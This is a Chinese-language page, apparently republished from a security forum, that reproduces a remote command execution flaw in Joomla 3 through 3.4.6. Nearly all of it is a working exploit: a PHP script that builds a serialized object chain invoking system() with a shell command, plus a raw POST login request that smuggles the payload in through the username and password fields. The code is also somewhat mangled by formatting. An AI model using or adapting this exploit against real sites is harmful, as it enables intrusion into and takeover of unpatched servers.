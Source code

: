 # Joomla 3-3.4.6 远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2995](https://www.zhihuifly.com/t/topic/2995)

# Joomla 3-3.4.6 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

Joomla 3-3.4.6

PHP < 5.6.13

## 三、复现过程

```
<?php

class JSimplepieFactory {}

class JDatabaseDriverMysql {}

class SimplePie

{

var $feed_url;

var $cache;

var $sanitize;

var $cache_name_function;

```
public function __construct($feed_url, $cache, $sanitize, $cache_name_function)
{
    $this-&gt;feed_url = $feed_url;
    $this-&gt;cache = $cache;
    $this-&gt;sanitize = $sanitize;
    $this-&gt;cache_name_function = $cache_name_function;
} 
```

}

class JDatabaseDriverMysqli

{

protected $obj;

protected $connection;

protected $disconnectHandlers = array();

```
public function __construct($obj, $connection, $disconnectHandlers)
{
    $this-&gt;obj = $obj;
    $this-&gt;connection = $connection;
    $this-&gt;disconnectHandlers = $disconnectHandlers;
} 
```

}

$function = ‘system’;

$argument = ‘[http://www.0-sec.org](http://www.0-sec.org);id’;

// $function = ‘assert’;

// $argument = ‘phpinfo() || “[http://www.0-sec.org](http://www.0-sec.org)”’;

$simplepie = new SimplePie($argument, true, new JDatabaseDriverMysql(), $function);

$jdatabasedrivermysqli = new JDatabaseDriverMysqli(new JSimplepieFactory(), true, array(array($simplepie,‘init’)));

echo urlencode(serialize($jdatabasedrivermysqli)); `?>` 
```

```
POST /Joomla/ HTTP/1.1
Host: www.0-sec.org:8000
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: XDEBUG_SESSION=PHPSTORM; 17511585a4996c48455fa590ab8d4d24=58c7q9ocb6n3q0tjj7m0s3g3i6
Content-Length: 737

CSRF-Token值=1&task=user.login&option=com_users&username=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&password=AAA";s:3:"233":序列化payload 
```